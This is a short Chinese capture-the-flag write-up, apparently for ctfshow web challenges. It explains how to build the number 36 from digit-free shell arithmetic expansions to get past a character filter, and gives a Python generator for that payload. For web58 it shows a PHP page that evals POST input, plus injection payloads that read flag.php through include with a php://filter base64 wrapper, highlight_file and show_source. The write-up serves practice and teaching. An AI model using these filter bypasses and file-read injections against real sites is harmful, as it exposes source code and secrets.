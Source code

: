 过滤了.和?，无法用上题的方法了，告诉了flag在36.php

这题要使用$(())来构造运算

```php
?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))



${_} ="" //返回上一次命令
$((${_}))=0
$((~$((${_}))))=-1
```

```php
通过$(())操作构造出36： $(()) ：代表做一次运算，因为里面为空，也表示值为0

$(( ~$(()) )) ：对0作取反运算，值为-1

$(( $((~$(()))) $((~$(()))) ))： -1-1，也就是(-1)+(-1)为-2，所以值为-2

$(( ~$(( $((~$(()))) $((~$(()))) )) )) ：再对-2做一次取反得到1，所以值为1

故我们在$(( ~$(( )) ))里面放37个$((~$(())))，得到-37，取反即可得到36:
```

```py
python脚本:
get_reverse_number = "$((~$(({}))))" # 取反操作
negative_one = "$((~$(())))"		# -1
payload = get_reverse_number.format(negative_one*37)
print(payload)
```

## web58

```php
<?php
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}else{
    highlight_file(__FILE__);
}
```

```php
这题system，反引号等执行命令函数无法使用，那么就利用show_source或highlight_file来绕过，或者使用include
```

```php
c=include($_POST[1]);&1=php://filter/convert.base64-encode/resource=flag.php
c=highlight_file('flag.php');
c=show_source('flag.php');
```
